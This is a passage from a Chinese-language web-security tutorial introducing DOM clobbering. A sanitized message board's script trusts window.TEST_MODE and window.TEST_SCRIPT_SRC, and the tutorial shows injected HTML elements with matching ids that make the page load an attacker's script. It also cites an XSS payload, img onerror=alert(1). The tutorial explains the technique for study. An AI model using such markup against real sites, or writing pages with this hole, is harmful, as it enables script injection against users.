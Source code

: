 而這個手法用在攻擊上，就是標題的 DOM clobbering。之前是因為這個攻擊才第一次聽到 clobbering 這個單字的，去查一下發現在 CS 領域中有覆蓋的意思，就是透過 DOM 把一些東西覆蓋掉以達成攻擊的手段。

## DOM clobbering 入門

那在什麼場景之下有機會用 DOM clobbering 攻擊呢？

首先，必須有機會在頁面上顯示你自訂的 HTML，否則就沒有辦法了。

所以一個可以攻擊的場景可能會像是這樣：

``` html
<!DOCTYPE html>
<html>
<body>
  <h1>留言板</h1>
  <div>
    你的留言：哈囉大家好
  </div> 
  <script>
    if (window.TEST_MODE) {
      // load test script
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
</html>
```

假設現在有一個留言板，你可以輸入任意內容，但是你的輸入在 server 端會經過 sanitize，把任何可以執行 JavaScript 的東西給拿掉，所以 `<script></script>` 會被刪掉，`<img src=x onerror=alert(1)>` 的 `onerror` 會被拿掉，還有許多 XSS payload 都沒有辦法過關。

簡而言之，你沒辦法執行 JavaScript 來達成 XSS，因為這些都被過濾掉了。

但是因為種種因素，並不會過濾掉 HTML 標籤，所以你可以做的事情是顯示自訂的 HTML。只要沒有執行 JavaScript，想要插入什麼 HTML 標籤，設置什麼屬性都可以。

所以呢，可以這樣做：

``` html
<!DOCTYPE html>
<html>
<body>
  <h1>留言板</h1>
  <div>
    你的留言：<div id="TEST_MODE"></div>
    <a id="TEST_SCRIPT_SRC" href="my_evil_script"></a>
  </div> 
  <script>
    if (window.TEST_MODE) {
      // load test script
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
</html>
```
